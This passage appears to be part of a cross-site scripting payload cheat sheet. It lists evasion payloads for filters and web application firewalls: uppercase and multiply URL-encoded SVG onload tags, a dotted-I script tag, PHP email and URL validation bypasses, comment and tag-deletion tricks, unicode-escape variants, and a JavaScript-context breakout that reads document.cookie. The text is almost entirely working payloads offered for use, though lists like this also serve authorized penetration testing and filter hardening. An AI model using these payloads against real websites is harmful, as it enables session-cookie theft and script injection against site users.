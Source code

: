 3. Uppercase Payloads
```html
<SVG ONLOAD=ALERT(1)>
```

4. Encoded XSS
```html
(Encoded)
%3Csvg%20onload%3Dalert(1)%3E 

(Double Encoded)
%253Csvg%2520onload%253Dalert%281%29%253E 

(Triple Encoded)
%25253Csvg%252520onload%25253Dalert%25281%2529%25253E 
```

5. JS Lowercased Input
```html
<SCRİPT>alert(1)</SCRİPT>
```

6. PHP Email Validation Bypass
```html
<svg/onload=alert(1)>"@gmail.com
```

7. PHP URL Validation Bypass
```html
javascript://%250Aalert(1)
```

8. Inside Comments Bypass
```html
<!--><svg onload=alert(1)-->
```

9. Bypass WAF if html tag is deleted from source, for instance the tag <embed> was deleted from the source
```html
" on<embed>click="a=al<embed>ert,a(cookie)
```

10. Single string (')
```html
"><a/href="'j'a'v'a'sc'r'ip't':'alert(d'ocumen't.domain)"/>
```
11. Filter Bypass via unicode
```
%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```
## JS Context

1. function Name() {document.location.href = "test.aspx?id="<PAYLOAD>";}
   - payload `";}alert(document.cookie);{//`
